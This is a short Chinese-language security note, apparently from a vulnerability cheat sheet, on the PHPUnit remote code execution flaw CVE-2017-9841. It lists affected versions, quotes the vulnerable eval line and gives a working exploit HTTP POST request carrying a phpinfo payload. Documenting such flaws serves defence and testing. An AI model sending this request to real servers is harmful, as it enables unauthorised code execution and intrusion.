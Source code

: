![image](img/php-xxe.png)

#### PHP-Unit

phpunit是php中的单元测试工具

**CVE-2017-9841**

> phpunit 远程代码执行漏洞（CVE-2017-9841）

* 影响版本：4.8.19 \~ 4.8.27和5.0.10 \~ 5.6.2
*   漏洞详情

    * vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php文件有如下代码：

    ```php
    eval('?>'.file_get_contents('php://input'));
    ```
* 漏洞利用

```
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
HOST:xxxxx

<?=phpinfo()?>
```
